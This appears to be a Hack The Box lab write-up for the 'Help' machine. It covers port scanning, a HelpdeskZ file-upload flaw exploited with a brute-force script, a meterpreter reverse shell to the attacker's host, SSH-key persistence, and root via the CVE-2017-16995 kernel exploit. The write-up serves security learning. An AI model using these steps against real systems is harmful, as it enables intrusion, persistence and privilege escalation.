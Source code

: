 ```yaml
---
layout: single
title: Help - Hack The Box
excerpt: "Help showed that a small programming mistake in a web application can introduce a critical security vulnerability. In this case, the PHP application errors out when uploading invalid extensions such as PHP files but it doesn't delete the file. Combined with a predictable filename generated based on MD5 of original file + epoch, we can get RCE."
date: 2021-06-08
classes: wide
header:
  teaser: /assets/images/htb-writeup-help/help_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - php  
  - apache
  - kernel exploit
  - helpdeskz
---
```


![](/assets/images/htb-writeup-help/help_logo.png)

Help showed that a small programming mistake in a web application can introduce a critical security vulnerability. In this case, the PHP application errors out when uploading invalid extensions such as PHP files but it doesn't delete the file. Combined with a predictable filename generated based on MD5 of original file + epoch, we can get RCE.

## Summary

- The HelpdeskZ PHP application allows .php file uploads to be stored even though there is an error message saying an invalid file has been uploaded. The PHP code doesn't clean up the invalid file that has been uploaded.
- We can't simply execute the uploaded file because the filename stored is obfuscated with the MD5 of the original file + the epoch timestamp. We can bruteforce those with an exploit already available.
- After getting a shell through RCE using the uploaded file, we execute a kernel exploit for CVE 2017-16995 and gain root access.

## Blog / Tools used

- [HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download](https://www.exploit-db.com/exploits/41200)
- [Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation](https://www.exploit-db.com/exploits/44298)

### Portscan

Not much running on there, it's a Linux box with few services running:

```
root@ragingunicorn:~# nmap -p- -sC -sV 10.10.10.121
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-19 19:02 EST
Nmap scan report for help.htb (10.10.10.121)
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration Node.js

![](/assets/images/htb-writeup-help/5.png)

There's some kind of Node.js application with graphql running on port 3000 but there's not much we can do with it.

Fails:
- Tried enumerating ednpoints with wfuzz, didn't find anything
- Once I had access to the server later on I was able to find the `graphql` endpoint but couldn't anything special with it other then querying user information which I already access to locally. The username/password shown here was not used anywhere on the box, just a distraction.

### Web enumeration Apache

The main page shows the default Ubuntu Apache page:

![](/assets/images/htb-writeup-help/1.png)

Next, when we run `gobuster` we find the `/support` URI:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -q -t 50 -u http://help.htb
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
```

This points to the **HelpdeskZ** application running on the server.

![](/assets/images/htb-writeup-help/2.png)

![](/assets/images/htb-writeup-help/3.png)

There's nothing in the Knowledge Base or News section, and we can't log in because we don't have credentials.

A quick search on Exploit-DB shows there's a vulnerability related to file uploads:

```
root@ragingunicorn:~# searchsploit helpdeskz
------------------------------------------------
 Exploit Title  |  Path  | (/usr/share/exploitdb/)
------------------------------------------------
HelpDeskZ 1.0.2 - Arbitrary File | exploits/php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File | exploits/php/webapps/41200.py
------------------------------------------------
Shellcodes: No Result
```

Exploit: `https://www.exploit-db.com/exploits/40300`

Basically, when we upload an attachment in a support ticket, the filename is obfuscated by doing an MD5 checksum of the filename concatenated with the epoch time. Because the code uses an integer for the epoch time (instead of a float), we can bruteforce the values by computing the MD5 value of every filename/time combination from the past few minutes and issue a GET request to the server to find if the filename is correct.

Looking the HelpdeskZ code, we can see that the upload folder is `/support/uploads/tickets/`, this will need to be passed to the exploit script to bruteforce the correct path.

![](/assets/images/htb-writeup-help/6.png)

![](/assets/images/htb-writeup-help/7.png)

We also need to make sure that the time on our computer is set to same time as the server, or close enough so the script will be able to cycle through the epoch time that matches the upload timestamp.

```
# date && curl -v --head http://help.htb/
Sun Jan 20 09:33:00 EST 2019
*   Trying 10.10.10.121...
* TCP_NODELAY set
* Connected to help.htb (10.10.10.121) port 80 (#0)
> HEAD / HTTP/1.1
> Host: help.htb
> User-Agent: curl/7.62.0
> Accept: */*
> 
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Sun, 20 Jan 2019 14:32:37 GMT
Date: Sun, 20 Jan 2019 14:32:37 GMT
```

For the reverse shell, we can can use a simple `php/meterpreter/reverse_tcp` shell and attach it to a support ticket:

![](/assets/images/htb-writeup-help/8.png)

![](/assets/images/htb-writeup-help/9.png)

It seems that some extensions are blacklisted or whitelisted on the server. But if we look at the source code on Github, we notice that even when we get an error message, there is no code that deletes the invalid file. The file is still saved on the server even if we get an error message.

![](/assets/images/htb-writeup-help/10.png)

To run the exploit, we just give it the upload location and the filename we uploaded:
```
# ./40300.py http://help.htb/support/uploads/tickets/ cmd.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
```

Once the script hits the right filename, the payload is triggered and we get a shell:
```
msf5 exploit(multi/handler) >
[*] Sending encoded stage (51106 bytes) to 10.10.10.121
[*] Meterpreter session 1 opened (10.10.14.23:5555 -> 10.10.10.121:35166) at 2019-01-20 09:35:45 -0500
```

Now we can grab the flag and write our SSH key to the user folder so we can log in by SSH after:
```
meterpreter > shell
Process 17138 created.
Channel 0 created.
cd /home/help
cat user.txt
bb8a7b....
mkdir .ssh
echo "ssh-rsa AAAAB3NzaC1y[...]hscPOtelvd root@ragingunicorn" >> .ssh/authorized_keys
```

### Privesc

Since this is a low point box, the priv esc is probably something simple such as kernel exploit.

We get a bunch of results when we run the [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

```
[...]
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Tags: debian=9,fedora=25|26|27,[ ubuntu=14.04|16.04|17.04 ]
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
[...]
```

We can exploit CVE 2017-16995 to gain root access. According to the CVE's description:

> The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

Exploiting it was easy:

```
help@help:~$ cd /dev/shm
help@help:/dev/shm$ vi exp.c
help@help:/dev/shm$ gcc -o exp exp.c
help@help:/dev/shm$ ./exp
task_struct = ffff880039afd400
uidptr = ffff880036b75b04
spawning root shell
root@help:/dev/shm# cat /root/root.txt
b7fe60...
```
